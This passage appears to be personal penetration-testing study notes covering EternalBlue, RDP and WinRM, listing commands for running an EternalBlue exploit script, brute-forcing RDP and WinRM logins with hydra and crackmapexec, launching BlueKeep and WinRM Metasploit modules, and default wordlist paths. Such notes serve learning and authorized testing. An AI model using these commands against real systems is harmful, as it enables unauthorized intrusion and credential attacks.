 ```bash
> chmod + x eternalblue_exploit7.py
> python eternalblue_exploit7.py $IP shellcode/sc_x64.bin
```

****
### RDP
proprietory GUI remote acces portocol by Microsoft - can be configgured to run on ANY TCP port.
```bash
# detect rdp on some other RANDOM port
> -x "use auxiliary/scanner/rdp/rdp_scanner && set rport 3333"

BRUTEFORCE
> hydra -L $Userlist -P $password rdp://$IP -s 3333

INTERACTION
> xfreerdp /u:$NAME /p:$PASS /v:$IP:PORT
remmina

EXPLOIT : BLUEKEEP (CVE-2019-0708)
grants access to a chunk of kernel memory that allows you run arbitrary code at SYSTEM level, xp,vista,win7,server 2008 & R2
NB : if network level auth is enabled the exploit will fail.

search BlueKeep
use the scanner one to check if vuln
> set rhosts, rport(if diff port was used)

EXPLOIT (WORKS ONLY ON 64bit computers & specific targets)
> set rhosts

exploit might fail because you need to set the target, might also need to change "CHUNK size" default is 250mb, setting too high will crash target

> show targets
> set target $ID
```

****
wordlist location : 
USER LIST
`/usr/share/metasploit-framework/data/wordlist/common_users.txt `

PASSWORD LIST 
`/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
OR
`/usr/share/metasploit-framework/data/wordlists/common_passwords.txt`

****
### WinRM
>5985/TCP & 5986/TCP (HTTPS)
```bash
> cme winrm $IP -u administrator -p $passlist
> cme winrm $IP -u administrator -p pass -x "whoami"

LOGIN
> evil-winrm -u administrator -p $PASS -i $IP 

=MSF=
basically for a meterpreter session via winrm
> search winrm_script 
(use exploit/windows/winrm/winrm_script_exec)
> set FORCE_VBS true
> set RHOSTS, USERNAME & PASSWORD
```